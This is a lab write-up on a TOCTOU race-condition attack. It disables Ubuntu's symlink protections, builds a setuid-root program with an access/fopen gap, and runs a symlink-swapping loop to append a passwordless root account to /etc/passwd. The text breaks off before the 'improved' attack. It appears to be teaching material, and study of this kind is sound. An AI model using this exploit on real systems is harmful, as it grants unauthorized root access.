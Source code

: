 # Lab 1 - Race Condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place.

## Turning Off Countermeasures

To turn off race condition protections, in order to guarantee that the attack will be possible. In Ubuntu 20.04:

```bash
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```

## Writing a vulnerable program

Vulp.c program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {        // A
        fp = fopen(fn, "a+");       // B
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Internally, the verification in `A` will be in terms of the **Real UID** (current user ID), and `B` using the **Effective UID** (temporary ID, ). The goal of this attack is to gain root privileges by exploring the race vulnerability. If we change the meaning of the `tmp/XYZ` file between this two instructions (due to non-atomic operations), using for instance UNIX symbolic link (symblink), we could access the `etc/passwd` file content and write stuff.

To compile/run this vulnerable program:

```bash
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Choosing Our Target

We want to append one more line in `etc/passwd` file:

```note
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

- "test" will be our new username;
- "U6aMy0wojraho" guarantees that we don't need to fill the password field;
- "0" id, as the third argument, implicitly guarantees root privileges on this new user;

With this line, we can gain access to the machine using a root user.

## The Real Attack

race.c, the attack program:

```c
#include <unistd.h>
int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	return 0;
}
```

To run and monitoring the attack, we'll use this bash script:

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
do
    echo "your input" | ./vulp      # Run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

We can run both programs in parallel in order to catch the expected result. 

## Improved Attack Method

In the previous task most of our attempts didn't work because our attack program, running with no root privilege could not make changes to the root owned /tmp/XYZ file.

Using unlink() and symlink() approach gave us a race condition in our attack program which was exploited by the target program.

We can solve this issue by making unlink() and symlink() atomic.

According to the lab guide now our attack program should look like this:
